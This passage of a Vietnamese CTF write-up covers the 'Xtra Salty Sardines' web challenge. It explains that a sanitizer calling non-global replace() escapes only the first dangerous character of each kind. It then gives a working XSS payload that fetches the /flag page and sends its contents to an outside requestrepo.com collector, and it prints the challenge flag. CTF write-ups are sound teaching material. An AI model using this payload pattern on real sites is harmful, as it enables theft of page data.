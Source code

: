 Giờ ta chỉ còn tìm cách bypass filter nữa là được. Ở bài này filter 2 tiêu chí:
- Tiêu chí 1: filter những kí tự không an toàn bao gồm `<>'"&`.
```js
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```
- Tiêu chí 2: độ dài `name` phải nằm trong đoạn [0..2048].
```js
if (name.length === 0 || name.length > 2048) {
    res.status(400)
        .type("text/plain")
        .send("sardine name must be 1-2048 chars");
    return;
}
```

Phần độ dài thì không đáng lo ngại lắm, tuy nhiên tiêu chí 1 làm mình phân vân rất lâu. Mình tưởng hàm `replace()` sẽ thay thế tất cả, nhưng thực ra nó chỉ thay thế kí tự đầu tiêu.

![Oops](./images/%5BWEB%5D_XtraSaltySardines/failed_filter_detection.jpg)

Nên payload của mình sẽ có dạng:
```html
<>"'& <script>...</script>
```

Dưới đây là payload của mình:

```html
<>"'& <script>fetch('https://xtra-salty-sardines.web.actf.co/flag').then((res)=>console.log(res.text().then((text)=>fetch("https://31zbgk0b.requestrepo.com?c="+btoa(text)))))</script>
```

Flag:
```
actf{those_sardines_are_yummy_yummy_in_my_tummy}
```

## [WEB] Art Gallery
